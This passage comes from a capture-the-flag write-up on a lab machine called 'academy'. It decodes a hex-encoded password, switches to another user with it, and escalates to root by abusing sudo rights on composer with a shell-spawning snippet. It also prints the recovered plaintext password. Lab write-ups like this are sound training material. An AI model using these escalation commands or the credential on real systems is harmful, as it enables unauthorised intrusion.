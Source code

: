 - Now pressing `i` we'll enter in *Insert Mode* and paste the HEX content we want to convert, right after `00000000:`.

- Press `Esc` again to return to `command mode` and type `:% !xxd -r` to return to the actual content to ASCII.

- You can later save and exit by entering the command `:wq!`  but you might have also seen the actual content of this HEX value. Below is the output of the file I've created to do this conversion:

```bash
cat /tmp/test                    
mrb3n_Ac@d3my!
```

As **mrb3n** is one of the other users of this box this could probably be his password, which was confirmed by running `su mrb3n` and typing the password found.

Enumerating his permissions, noticed that he's not member of any special group but has `sudo` privileges to run **composer**

```bash
mrb3n@academy:~$ id
uid=1001(mrb3n) gid=1001(mrb3n) groups=1001(mrb3n)
mrb3n@academy:~$ sudo -l
[sudo] password for mrb3n: 
Matching Defaults entries for mrb3n on academy:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User mrb3n may run the following commands on academy:
    (ALL) /usr/bin/composer
```

### Abusing `sudo` permissions

Checking on [GTFOBins](https://gtfobins.github.io/gtfobins/composer/) is possible to escalate privileges by using composer running the snippet below, which worked without issues:

```bash
TF=$(mktemp -d)
echo '{"scripts":{"x":"/bin/sh -i 0<&3 1>&3 2>&3"}}' >$TF/composer.json
sudo composer --working-dir=$TF run-script x
```

As **root**, finally obtained the flag under `/root/root.txt`

```bash
root@academy:~# id
uid=0(root) gid=0(root) groups=0(root)
root@academy:~# cat root.txt 
<redacted>
root@academy:~#
```

I hope you have enjoyed this box resolution!

See you next time! :smiley:
